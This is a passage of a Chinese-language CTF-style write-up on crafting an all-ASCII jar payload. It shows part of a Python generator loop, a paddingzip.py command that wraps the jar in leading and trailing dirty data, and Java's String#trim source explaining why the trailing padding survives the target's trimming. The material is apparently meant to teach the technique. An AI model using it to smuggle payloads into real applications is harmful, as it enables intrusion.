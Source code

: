 ```python
            print('[+] CRC:{0} RDL:{1} CDL:{2} CDAFL:{3} Padding data: {4}*{5}'.format(b_crc, b_raw_data, b_compressed_data, b_cdzf, num, padding_char))
            # step04 保存最终ascii jar
            output = open(jar_filename, 'wb')
            output.write(wrap_jar(raw_data,compressed_data, zip_entity_filename.encode()))
            print('[+] Generate {0} success'.format(jar_filename))
            break
        else:
            print('[-] CRC:{0} RDL:{1} CDL:{2} CDAFL:{3} Padding data: {4}*{5}'.format(b_crc, b_raw_data,
                                                                                       b_compressed_data, b_cdzf, num,
                                                                                       padding_char))
        num = num + 1
```

具体可见项目：https://github.com/c0ny1/ascii-jar/blob/master/ascii-jar-1.py

### 前后脏数据的构造

zip格式的文件都是支持前后加脏数据的，不过加脏数据之后需要修复下各类`offset`。可以使用zip命令进行修复,为了省事，可以直接使用phith0n师傅的[PaddingZip](https://github.com/phith0n/PaddingZip)项目来修复。

PaddingZip 是一款可以制作包含文件内容之间填充字符的压缩文件的工具。

直接使用代码：https://github.com/c0ny1/ascii-jar/blob/master/paddingzip.py

```shell
$ python3 paddingzip.py -i ascii01.jar -o payload.jar -p "DIRTY DATA AT THE BEGINNING " -a "C0NY1 DIRTY DATA AT THE END"
file 'payload.jar' is generated
```

可能你会有疑问，为啥末尾的脏数据是`C0NY1` + `DIRTY DATA AT THE END`。这是因为题目的代码,在获取参数时进行了`trim`操作。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/trim.png)

trim操作会将字符串首尾小于或等于`\u0020`的字符清理掉，而正常的zip文件末尾都是`00`等空字节结尾的，这会导致末尾数据丢失。

```java
// java.lang.String#trim
public String trim() {
    int len = value.length;
    int st = 0;
    char[] val = value;    /* avoid getfield opcode */

    while ((st < len) && (val[st] <= ' ')) {
        st++;
    }
    while ((st < len) && (val[len - 1] <= ' ')) {
        len--;
    }
    return ((st > 0) || (len < value.length)) ? substring(st, len) : this;
}
```
